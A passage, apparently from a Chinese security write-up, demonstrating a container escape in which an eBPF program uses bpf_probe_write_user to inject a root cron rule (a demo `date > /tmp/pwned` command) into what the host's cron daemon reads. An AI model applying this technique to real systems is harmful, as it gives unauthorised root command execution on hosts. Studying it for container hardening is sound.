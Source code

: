14.      `{`
15.          `bpf_printk("PAYLOAD too long\n");`
16.  `​`
17.          `read_buf = 0;`
18.          `return;`
19.      `}`
20.  `​`
21.      `bpf_probe_write_user(read_buf, PAYLOAD, sizeof(PAYLOAD));`
22.      `read_buf = 0;`
23.  `}`

这里的payload就是任意的符合cron语法的规则，例如`* * * * * root /bin/bash -c 'date > /tmp/pwned' #`，由于 `vixie-cron`命令不支持多行，所以仅需在最后加个注释符 `#` 即可保证后面的命令被注释掉，时间选择每分钟都会触发，由于上面 `stat` 返回的是较小 `mtime` ，停止eBPF程序后也可以马上恢复成原来的cron规则。

编译后在拥有 `CAP_SYS_ADMIN`权限其他配置默认的root用户容器内运行一下，：

![](assets/1700701462-71ffc38cdeea38bcc6b7504665daeadd.jpeg)

同时运行 `journalctl -f -u cron` 观察一下 `cron` 输出的日志：

![](assets/1700701462-c38af0b3d93992f31ea037acd0aa3cb8.jpeg)

